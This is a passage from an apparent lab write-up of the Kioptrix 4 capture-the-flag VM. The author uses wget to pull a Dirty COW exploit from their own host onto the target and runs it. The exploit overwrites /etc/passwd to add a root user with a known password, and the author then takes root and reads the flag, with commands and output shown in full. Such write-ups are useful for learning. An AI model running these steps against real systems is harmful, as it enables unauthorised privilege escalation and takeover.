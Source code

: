 With the above rules in mind, I restarted the HTTP server and bound to port 81 instead, which allowed me to transfer the exploit, run it, and temporarily overwrite the root user:

```shell_session
robert@Kioptrix4:~$ wget 10.2.0.3:81/dirtycow
--17:47:02--  http://10.2.0.3:81/dirtycow
           => `dirtycow'
Connecting to 10.2.0.3:81... connected.
HTTP request sent, awaiting response... 200 OK
Length: 12,768 (12K) [application/octet-stream]

100%[=======================================================================================================>] 12,768        --.--K/s             

17:47:02 (1.37 GB/s) - `dirtycow' saved [12768/12768]

robert@Kioptrix4:~$ chmod +x dirtycow
robert@Kioptrix4:~$ ./dirtycow
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
rastating:fioaKmuWSeBhQ:0:0:pwned:/root:/bin/bash

mmap: b7f6f000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'rastating' and the password 'toor'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'rastating' and the password 'toor'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

Now I was able to login as the new super user, restore the original `/etc/passwd` to restore the `root` user, switch to `root` and finally read the flag:

```shell_session
Welcome to LigGoat Security Systems - We are Watching
rastating@Kioptrix4:~# rm /etc/passwd
rastating@Kioptrix4:~# mv /tmp/passwd.bak /etc/passwd
rastating@Kioptrix4:~# su root
root@Kioptrix4:~# ls -l
total 8
-rw-r--r-- 1 root       root        625 2012-02-06 10:48 congrats.txt
drwxr-xr-x 8 loneferret loneferret 4096 2012-02-04 17:01 lshell-0.9.12
root@Kioptrix4:~# cat congrats.txt
Congratulations!
You've got root.

There is more then one way to get root on this system. Try and find them.
I've only tested two (2) methods, but it doesn't mean there aren't more.
As always there's an easy way, and a not so easy way to pop this box.
Look for other methods to get root privileges other than running an exploit.

It took a while to make this. For one it's not as easy as it may look, and
also work and family life are my priorities. Hobbies are low on my list.
Really hope you enjoyed this one.

If you haven't already, check out the other VMs available on:
```